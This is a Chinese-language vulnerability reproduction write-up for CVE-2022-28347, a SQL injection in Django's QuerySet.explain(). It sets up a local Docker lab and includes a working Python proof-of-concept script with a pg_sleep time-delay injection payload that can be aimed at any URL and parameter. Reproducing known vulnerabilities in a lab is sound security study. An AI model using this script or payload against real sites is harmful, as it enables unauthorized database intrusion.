 # CVE-2022-28347 漏洞复现



## 1.漏洞简介

Django 是用 Python 开发的一个免费开源的 Web 框架，几乎囊括了 Web 应用的方方面面，可以用于快速搭建高性能、优雅的网站，Django 提供了许多网站后台开发经常用到的模块，使开发者能够专注于业务部分。该漏洞攻击者使用精心编制的字典，作为 **options 参数，可导致 QuerySet.explain() 方法在选项名称中受到 SQL 注入攻击。



## 2.环境介绍

**Django项目名称**：Python_CVE_2022_28347_Django

**应用程序名称**：vul

**Django版本**：4.0.1

**数据库**：PostgreSQL

**项目目录结构**:

```
├── docker-compose.yml
├── Dockerfile
├── manage.py
├── Python_CVE_2022_28347_Django
│   ├── asgi.py
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
├── requirements.txt
└── vul
    ├── admin.py
    ├── apps.py
    ├── __init__.py
    ├── migrations
    │   └── __init__.py
    ├── models.py
    ├── urls.py
    └── views.py
```



## 3.复现过程

在 docker-compose.yml 目录下执行命令，启动环境。

```
docker-compose up -d
```

执行 `docker ps` 查看是否正常启动。

![](img/image-20230723152135007.png)

访问 http://127.0.0.1:8000/vul/user 页面如下，说明环境正常启动。

![image-20230723152441222](img/image-20230723152441222.png)

漏洞点设置在了 id 传参处，直接在传参处传入 `payload`,  如下图:

![](img/image-20230723152924369.png)

利用延时注入，使服务器延时 5 秒响应，证明漏洞存在。

编写 poc 脚本：

```python
import sys
import requests
from urllib.parse import urlparse, parse_qs, urlencode, urlunparse

def replace_url_param(url, param_name, new_value):
    # 解析URL
    parsed_url = urlparse(url)
    # 解析参数
    params = parse_qs(parsed_url.query)

    # 替换参数值
    params[param_name] = [new_value]

    # 构建新的查询字符串
    encoded_params = "&".join([f"{k}={v[0]}" for k, v in params.items()])

    # 构建新的URL
    new_url_parts = list(parsed_url)
    new_url_parts[4] = encoded_params

    new_url = urlunparse(new_url_parts)

    return new_url

if len(sys.argv) < 4:
    print("请提供要导入的URL和参数名")
    sys.exit(1)

url = None
param_name = None

# 解析命令行参数
for i in range(1, len(sys.argv)):
    if sys.argv[i] == '-u':
        if i+1 < len(sys.argv):
            url = sys.argv[i+1]
    elif sys.argv[i] == '-p':
        if i+1 < len(sys.argv):
            param_name = sys.argv[i+1]

# 检查是否获取到所有必要参数
if url is None or param_name is None:
    print("请提供要导入的URL和参数名")
    sys.exit(1)

new_value = '''{"ANALYZE)+select+pg_sleep(5);--+":"test"}''' # payload

new_url = replace_url_param(url, param_name, new_value)
print(new_url)
# 发送请求并计算响应时间
response = requests.get(new_url)
response_time = response.elapsed.total_seconds()
print(f'响应时间:{response_time}')

if 5 < response_time < 6:
    print("存在CVE-2022-28347漏洞")
else:
    print("不存在CVE-2022-28347漏洞")
```

执行脚本验证：

```sh
python poc.py -u http://127.0.0.1:8000/vul/user/?id=1 -p id
```

![image-20230723160704922](img/image-20230723160704922.png)